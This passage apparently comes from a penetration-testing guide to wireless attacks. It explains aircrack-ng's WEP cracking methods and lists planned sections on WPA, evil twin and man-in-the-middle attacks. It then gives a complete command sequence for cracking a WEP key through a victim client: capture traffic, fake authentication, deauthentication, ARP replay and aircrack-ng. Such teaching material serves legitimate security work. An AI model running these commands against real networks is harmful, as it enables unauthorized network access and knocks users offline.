 
`aircrack-ng` uses several different methods to crack keys:

|Method|Description|
|-|-|
|PTW Cracking|Only used with ARP request replay method and can only crack 40 and 104-bit WEP keys|
|FMS/KoreK Cracking|Uses statistical analysis and then bruteforces with the most likely keys|
|Dictionary Attacks|Uses a file with either ASCII keys or hexadecimal keys|

<br>

## Wireless Attack Techniques

This section will review the following wireless attack techniques:

- [Attacking Open WEP](#attacking-open-wep)
	- [WEP Client](#wep-client)
	- [WEP Clientless](#wepclientless)
- [Attacking Shared Key WEP](#shared-key-wep)
- [Attacking WPA and WPA2](#attacking-wpa-and-wpa2)
	- [Guessing Passwords](#guessing-passwords)
	- [Decrypting Packets](#decrypting-packets)	
- [Attacking WPA Enterprise](#attacking-wpe-enterprise)
- [Evil Twin Access Point](#evil-twin-access-point)
- [Man in the Middle Attack](#man-in-the-middle-attack)

<br>

Once you've identified interesting access points and clients, it's easiest to save their MAC addresses as environment variables:

```
export AP=14:D6:4D:26:81:04
export VIC=5C:1D:D9:F3:3A:D7
export MON=00:C0:CA:97:2B:52
export BC=FF:FF:FF:FF:FF:FF
```

### Attacking Open WEP

Open WEP can be cracked if enough packets with unique IVs are captured.  The primary way to do this is to capture an ARP request and replay it over and over causing the access point to generate lots of ARP replies, each containing a unique IV.

#### WEP Client

If the access point has protections or is out of range of attacker, it is possible to replay an ARP request to the client so it will respond with ARP replies, each containing a unique IV.

Use the following steps to replay an ARP request to the victim client and crack the WEP key:

|Step|Command|
|-|-|
|Capture traffic|`airodump-ng -c 6 --bssid $AP -w cwep wlan0mon`|
|Perform fake authentication|`aireplay-ng --fakeauth 0 -e dlink123 -b $AP -h $MON wlan0mon`|
|Deauth clients to generate IVs|`aireplay-ng --deauth 1 -a $AP -c $VIC wlan0mon`|
|Replay captured ARP requests|`aireplay-ng --arpreplay -b $AP -h $MON wlan0mon`|
|Crack WEP key|`aircrack-ng cwep-01.cap`|
